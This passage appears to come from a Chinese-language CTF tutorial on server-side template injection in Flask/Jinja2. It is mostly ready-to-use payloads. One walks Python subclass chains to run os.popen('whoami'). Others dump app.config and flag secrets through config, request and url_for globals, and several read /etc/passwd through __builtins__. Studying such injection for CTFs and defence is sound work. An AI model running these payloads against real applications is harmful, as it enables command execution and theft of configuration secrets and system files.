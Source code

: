 后面如法炮制，payload如下

```go
{{().__class__.__base__.__subclasses__()[69].__init__.__globals__['os'].popen('whoami').read()}}
```

#### 获取配置信息

我们有时候可以使用flask的内置函数比如说`url_for`，`get_flashed_messages`，甚至是内置的对象`request`来查询配置信息或者是构造payload

- `config`

我们通常会用`{{config}}`查询配置信息，如果题目有设置类似`app.config ['FLAG'] = os.environ.pop('FLAG')`，就可以直接访问`{{config['FLAG']}}`或者`{{config.FLAG}}`获得flag

- `request`

jinja2中存在对象`request`

```go
Python 3.7.8



>>> from flask import Flask,request,render_template_string



>>> request.__class__.__mro__[1]



<class 'object'>
```

查询一些配置信息

```go
{{request.application.__self__._get_data_for_json.__globals__['json'].JSONEncoder.default.__globals__['current_app'].config}}
```

构造ssti的payload

```go
{{request.__init__.__globals__['__builtins__'].open('/etc/passwd').read()}}



{{request.application.__globals__['__builtins__'].open('/etc/passwd').read()}}
```

- `url_for`

查询配置信息

```go
{{url_for.__globals__['current_app'].config}}
```

